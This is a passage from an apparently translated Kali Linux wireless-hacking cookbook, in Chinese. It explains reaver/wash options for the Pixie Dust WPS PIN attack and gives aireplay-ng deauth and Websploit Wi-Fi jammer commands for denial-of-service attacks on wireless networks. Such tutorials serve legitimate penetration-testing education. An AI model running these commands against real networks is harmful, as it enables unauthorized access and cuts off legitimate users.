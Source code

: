 让我们深入了解命令及其功能：

+   `wash -i wlan0mon`：此命令扫描所有启用 WPS 的设备。

+   `wash -i wlan0mon -C`：`-C`命令忽略 FCS 数据包

+   `reaver -i wlan0mon -c X -b xx:xx:xx:xx:xx:xx -K x -vv`

+   `-i`：这指定与指定接口的交互

+   `-b`：这指定使用 BSSID

+   `-K（x）`：`X`是数字类型，`K`是设置 Pixie Dust 的参数

+   `-c`：指定网络运行的信道

+   `-vv`：这会显示有关脚本正在执行的更多非关键信息，以更好地理解过程

## 还有更多...

PixieWPS 是一种用于离线暴力破解 WPS PIN 的工具，同时利用了一些无线接入点的低或不存在的熵，也被称为 Pixie Dust 攻击；这是 Dominique Bongard 发现的。PixieWPS 工具（由 wiire 开发）诞生于 Kali 论坛。

在下一个步骤中，我们将看到拒绝服务攻击是如何在网络上发生的。

# 拒绝服务攻击

最主要的攻击之一是拒绝服务攻击，整个无线网络都可以被破坏；在这种攻击中，合法用户将无法访问网络。无线网络很容易受到这种攻击。由于用户的识别是基于 Mac 地址的，因此很难追踪这种活动的来源。这种情况发生的几种方式包括伪造假的源地址，或者通过复制路由器请求配置更改。一些设备也会通过完全关闭网络来响应 DoS 攻击。一种方法是向无线网络发送垃圾数据包或持续向网络上的所有用户发送 Deauth 数据包。

在这个教程中，我们将看到 DoS 攻击是如何发生的。

## 准备工作

我们需要一个正在积极浏览互联网或网络的用户，另一端我们将有我们的 Kali Linux 机器和连接到它的无线适配器。

## 操作步骤...

1.  执行 DoS 攻击最简单的方法之一是 Deauth 攻击；在这里，我们将使用`aireplay`通过以下命令对网络执行 Deauth 攻击：

```
      aireplay-ng --deauth 100 -a (BSSID) -c wlan0mon

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_10_026.jpg)

1.  Websploit 中还有一些有效载荷；其中一个称为 Wi-Fi 干扰器。在 Kali 终端中使用以下命令执行：

```
      websploit
      use wifi/wifi_jammer
      show options
      set bssid xx:xx:xx:xx:xx:xx
      set essid xx:xx:xx:xx:xx:xx
      set interface wlanx
      set channel x
      run

```
